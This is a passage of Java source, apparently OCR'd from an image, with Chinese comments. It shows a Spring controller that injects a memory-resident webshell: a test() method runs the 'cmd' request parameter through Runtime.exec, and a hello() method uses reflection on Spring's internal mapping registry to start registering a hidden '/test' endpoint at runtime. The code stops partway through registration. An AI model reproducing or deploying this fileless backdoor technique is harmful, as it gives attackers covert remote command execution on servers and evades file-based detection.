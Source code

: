 ```java
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.ArrayList;
import java.util.Iterator;
import java.util.List;
import java.util.Map;

@Controller
public class HelloWorldController {
    public HelloWorldController() {}
    public void test() throws IOException {
        // 获取request和response对象
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
        // 获取cmd参数并执行命令
        java.lang.Runtime.getRuntime().exec(request.getParameter("cmd"));
    }
    @RequestMapping(value = "/hello")
    public String hello(Model model) throws NoSuchBeanDefinitionException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException, NoSuchFieldException {
        WebApplicationContext context = (WebApplicationContext)RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        // 2. 从context中获得 RequestMappingHandlerMapping 的实例
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        // 判断url是否存在
        AbstractHandlerMethodMapping abstractHandlerMethodMapping = context.getBean(AbstractHandlerMethodMapping.class);
        Method method = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping").getDeclaredMethod("getMappingRegistry");
        method.setAccessible(true);
        Object  mappingRegistry = (Object) method.invoke(abstractHandlerMethodMapping);
        Field field = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping$MappingRegistry").getDeclaredField("urlLookup");
        field.setAccessible(true);
        Map urlLookup = (Map) field.get(mappingRegistry);

        Iterator urlIterator = urlLookup.keySet().iterator();
        List<String> urls = new ArrayList();
        while (urlIterator.hasNext()){
            String urlPath = (String) urlIterator.next();
            if ("/test".equals(urlPath)){
                System.out.println("url已存在");
                return "hello";
            }
        }
        // 可选步骤，判断url是否存在
        // 2. 通过反射获得自定义 controller 中test的 Method 对象
        Method method2 = HelloWorldController.class.getMethod("test");
        // 3. 定义访问 controller 的 URL 地址
        PatternsRequestCondition url = new PatternsRequestCondition("/test");
        // 4. 定义允许访问 controller 的 HTTP 方法（GET/POST）
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        // 5. 在内存中动态注册 controller
```